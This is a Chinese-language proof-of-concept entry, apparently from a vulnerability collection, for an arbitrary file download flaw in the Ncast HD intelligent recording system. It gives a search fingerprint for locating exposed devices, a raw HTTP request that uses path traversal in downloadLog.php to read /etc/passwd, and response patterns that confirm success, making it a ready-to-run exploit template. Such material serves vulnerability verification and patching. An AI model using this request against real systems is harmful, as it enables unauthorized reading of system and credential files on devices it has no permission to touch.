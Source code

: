 ﻿# Ncast 高清智能录播系统 任意文件下载漏洞

> 更新时间：2024-05-06

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：app="Ncast-产品" && title=="高清智能录播系统"

> 验证脚本：HTTP

```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：Ncast 高清智能录播系统 任意文件下载漏洞.poc

